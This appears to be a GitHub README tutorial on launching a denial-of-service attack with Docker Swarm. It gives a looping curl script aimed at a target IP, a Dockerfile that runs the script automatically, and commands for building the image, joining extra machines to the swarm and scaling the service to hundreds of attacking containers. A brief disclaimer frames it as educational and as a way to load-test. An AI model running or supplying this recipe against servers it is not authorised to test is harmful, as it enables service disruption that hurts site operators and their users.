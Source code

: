 # Docker-Swarm-DDOS
## How to create a Denial of Service Attack through Docker Swarm.
#### Quick Disclaimer: This information is for educational purposes only and should not be used with malicious intent. Also, the following guide has been tested only for Mac and Ubuntu, minor differences might exist on other OS.

This repository will help you to create a DDOS attack on a server. This could be useful if working on a project and trying to test out what will happen if there is some traffic, heavy traffic or a full fleshed DDOS attack.

### List of Tasks

- [ ] Installing Docker
- [ ] Creating the Script
- [ ] Setting up Dockerfile
- [ ] Creating a Custom Docker Image
- [ ] Setting up Docker Swarm
- [ ] Creating and Scaling a Service
- [ ] Aditional Notes and Tips

>I'd recommend that before you get started with the individual steps, you first skim the entire guide.

### Installing Docker
If you have this part already simply move on to the next section, otherwise here is a link that to get you started.

Please install the proper version for your OS and then return back to this guide. :+1:

https://www.docker.com/community-edition

- [x] Installing Docker

### Creating the Script
Now that we have Docker installed and running let's get started with creating a directory.
It doesn't matter where this directory is, but to keep in simple for now I'll go with this

```
$ mkdir $HOME/DockerAttack
$ cd $HOME/DockerAttack
```
Following is done through iTerm or a Terminal.
I personally use vim for this, but anyway would really do.
```
$ vim curlAttack.sh
```
There's not much to the script, in fact, it's a simple looping curl, it looks something like this
```sh
#!/bin/bash
while true
do
#Please use 'man curl' to see what -vk is for, also -X command can be useful too.
curl -vk https:://<ip>
#sleep 5
done
exit 0
```
> I'd actually recommend to first write a curl command that works for your server in a terminal, then to copy paste it into the script.

At this point, you could test it out by adding execution permission and then running it.
```
$ chmod +x curlAttack.sh
$ ./curlAttack.sh
```

- [x] Creating the Script


### Setting up Dockerfile
Without switching to different directory lets create our Dockerfile.

>$ vim Dockerfile
```
FROM tutum/curl
ADD curlAttack.sh /usr/local/bin/curlAttack.sh
CMD ["usr/local/bin/curlAttack.sh"]
```
These three lines are basically pulling from a docker image that has the ability to use curl, adding our script to the image that comes from this Dockefile, then automatically running the script when a container is made.


- [x] Setting up Dockerfile

### Creating a Custom Docker Image Through Dockerfile

Now that Dockerfile is set up properly, without switching into a different directory run the following command.
```
  $ docker build -t <imageName>:dockerfile .
```
You'll then see that it's pulling from tutum/curl first.

Check if it was successful by running
 ```
 $ docker images
 ```
You should then see both tutum/curl and your own image.
 
 - [x] Creating a Custom Docker Image
 
### Setting up Docker Swarm
 
We can start up with docker swarm with the following command.
```
$ docker swarm init
```
If at this point you believe your computer has enough resources to make how many copied you like skip to the next step.
Docker Swarm is also built in a way to distribute the workload between worker nodes. The docker swarm init command gives a join token which could be used on another device that has docker in order to have it join as a worker and share the workload.

```
$ docker swarm join --token <Token From Init Command>
```

Note that the service creating and scaling commands(below) need to be run on the manager node. (The device where the swarm was initialized).

- [x] Setting up Docker Swarm
 
### Creating and Scaling a Service

So to start off here are useful commands to know, all of these start with: **docker service**

| Command   | Description |
| ------------- | ------------- |
|  create --name \<serviceName> --detach=false \<imageName>:dockerfile | Creates a service from the custom dockerfile image.  |
| scale \<serviceName>=\<#>  | Used to easily scale the number of copies of the service.  |
| rm \<serviceName> | Ends service with the given name.  |
| ls | Lets you see running services and the number of copies that are currently up. |

Here's an example that sets up the image, creates a service, scales it then ends it.
```
$ docker build -t <imageName>:dockerfile .  //[Only do this if you made changes to the Dockerfile]
$ docker service create --name <serviceName> --detach=false <imageName>:dockerfile
$ docker service ls   //[Can see 1/1 copy running]
$ docker service scale <serviceName>=100
$ docker service ls   //[Doing this multiple times you can see the # of copies increasing]
$ docker service rm <serviceName>
```

Also, you if you'll be repeating these often, I'd recommend adding these as aliases for these.

- [x] Creating and Scaling a Service

### Aditional Notes and Tips
#### The following are in no particular order

* If you chose to copy paste command from here, double check not to have missing pieces.
* I recommend keeping both your <imageName> and <serviceName> to lower cases only, sometimes upper case letters and spaces cause issues.
* A creating a service doesn't work out, Cntrl-C doesn't actually stop it. Instead, the service in the background keeps trying to make containers. 
  - So if you realized you had a mistake in your image and would like to delete and rebuild it, it won't let you as the service constantly tries to make containers with that image.
  - To fix most of your problems
    - First, use "docker service rm" to delete the service then wait a few seconds for last containers to be stopped.
    - Then delete the image with "docker rmi". Fix whatever mistake you had and rebuild the image & the service.
* If you're new to docker I'd recommend reading their API, it's very clear and well written.


- [x] Aditional Notes and Tips

### This is the end of the tutorial, hope you found it useful.
